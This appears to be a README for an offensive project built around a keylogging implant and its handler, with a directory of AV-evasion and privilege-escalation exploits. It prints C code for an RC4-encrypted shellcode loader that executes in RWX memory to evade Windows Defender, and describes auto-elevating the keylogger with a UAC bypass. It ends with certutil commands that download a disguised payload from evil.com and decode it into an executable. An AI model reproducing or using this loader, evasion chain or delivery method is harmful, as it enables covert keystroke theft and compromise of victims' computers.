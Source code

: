 ## Beta Development 

All files relevant to the development of this project can be found here. 

The directory structure is as follows.

```
└── Beta
    ├── archivist.py
    ├── assets
    │   ├── chroma.py
    │   ├── __init__.py
    │   ├── __init__.pyc
    │   ├── main.py
    │   ├── README.md
    │   ├── tests
    │   │   ├── __init__.py
    │   │   └── upload_test.py
    │   └── uploader
    │       ├── base.py
    │       ├── catbox.py
    │       ├── fileio.py
    │       ├── __init__.py
    │       ├── mixtape.py
    │       └── uguu.py
    ├── binary_to_hex.py
    ├── console.py
    ├── exploits
    │   ├── AV-Evasion
    │   │   ├── AVWinD.exe
    │   │   └── windefexe.c
    │   └── Priv-Esc
    │       ├── ExamplePayload
    │       │   ├── Payload.cpp
    │       │   ├── Payload.exe
    │       │   └── Readme.md
    │       ├── PerformanceMonitorVolatileEnvironmentLPE
    │       │   ├── c_cpp_properties.json
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.cpp
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.vcxproj
    │       │   └── PerformanceMonitorVolatileEnvironmentLPE.vcxproj.filters
    │       ├── PerformanceMonitorVolatileEnvironmentLPE.sln
    │       └── README.md
    ├── REAME.md
    └── Scripts
        ├── helper.bat
        ├── README.md
        ├── shell.py
        └── shell.vbs

```
### About

`archivist.py` Is the main keylogging implant.
`console.py` Will be Archivists handler, facilitating comms between the implant
and operator.

These files are in active development.

The `binary_to_hex.py` file is here because it will potentially be incorperated into the way the
keylogger is going to be deployed. If you go to the `exploits/AV-Evasion` directory in this repo there will be a C
file there the contents of which look a little like those  below.

```
#include <Windows.h>
#include <rc4.h>

// The encrypted code allows us to get around static scanning
unsigned char buf[] = 
"\x67\xc6\xe9\xe7\x07\x0a\x37\x3b\x63\xf0\xfd\x02\xc3\x23\xcd" // Truncated 
"\xf3\xbe\x80\x69\x18\x24\xb3\xf9\x96\x3e";		       // Truncated 


int main() {
  int lpBufSize = sizeof(int) * 700;
  LPVOID lpBuf = VirtualAlloc(NULL, lpBufSize, MEM_COMMIT, 0x00000040);
  memset(lpBuf, '\0', lpBufSize);

  HANDLE proc = OpenProcess(0x1F0FFF, false, 4);
  // Checking NULL allows us to get around Real-time protection
  if (proc == NULL) {
    RC4("vXJDRPBUBnXKFphOMNzDZTCjnpbYhYDIMPBoYGotFWsBegm", buf, (char*) lpBuf, 700);
    void (*func)();
    func = (void (*)()) lpBuf;
    (void)(*func)();
  }

  return 0;
}
```

The payload is represented by the shell code you can see above. This 
shell code can be replaced by custom shell code. Which is what we are going to 
do. 

Once the main logger file has been compiled we will use the `binary_to_hex.py`
script to get a representation of the binary data in hex/shell code. Running
`use windows/windows_defender_exe` in `msfconsole` and setting the payload, to
our custom shell code we will end up with an executable that will attempt to 
make it harder for Windows Defender to get in the way of our keylogging operations.

Of course the keylogger itself has some anti-forensic and AV evasion routines
itself but a little more might be helpful.


Also in the `exploits` directory can be found a C++ file and some related project files.
This is a privilege escalation exploit originally developed by Martin Fischer of Bytecode77.
Whom you can find on github by clicking [here](https://github.com/bytecode77) and
online over at his [website](https://bytecode77.com). (I suggest checking both out
he's got some really cool projects there.)

The exploit makes it so our binary keylogger file gets auto-elevated through Volatile Environment and
perfmon.exe. 


On the question of how to get the malware to the target, i will leave that up
to your imagination. However `Magic Unicorn Attack Vector` by [Dave Kennedy](https://twitter.com/HackingDave)
from [TrustedSec](https://trustedsec.com) has the ability to encode a binary as cert file.

`python unicorn.py <path_to_payload/exe_encode> crt`

The beauty of this is that the `certutil` tool on Windows can be used to both download and
restore the encoded files back to `exe`. If you're able to run:

```
certutil -urlcache -split -f http://evil.com/keylogger.crt keylogger.crt
certutil -decode keylogger.crt keylogger.exe
```

Through remote code injection, or your preferred vector. That would be a pretty effective way of delivering
the malware.   
